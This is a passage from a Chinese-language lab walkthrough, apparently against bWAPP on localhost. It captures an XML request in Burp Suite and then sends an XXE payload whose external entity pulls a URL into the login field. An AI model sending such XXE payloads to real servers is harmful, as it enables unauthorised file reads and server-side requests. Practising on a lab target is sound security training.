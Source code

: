然后，打开靶场我们可以看到，页面中有一个按钮 `Any bugs?`，我们点击不会有反应，这时候可以打开Burpsuite做测试，通过捕获我们获取到点击按钮会发送请求：

```plain
POST /xxe-2.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 59
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
sec-ch-ua-platform: "macOS"
Content-type: text/xml; charset=UTF-8
Accept: */*
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/xxe-1.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: security_level=0; PHPSESSID=847jvmklugetdus5u1on5b92v6
Connection: close

<reset><login>bee</login><secret>Any bugs?</secret></reset>

```

经过观察，我们看到Content-type的值为text/xml，所以我们可以分析出下面的数据为XML数据，于是可以尝试进行XXE攻击。

```plain
POST /xxe-2.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 178
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
sec-ch-ua-platform: "macOS"
Content-type: text/xml; charset=UTF-8
Accept: */*
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/xxe-1.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: security_level=0; PHPSESSID=847jvmklugetdus5u1on5b92v6
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE reset[
<!ENTITY Info SYSTEM "http://127.0.0.1/1.txt">
]>

<reset><login>&Info;</login><secret>Any bugs?</secret></reset>

```
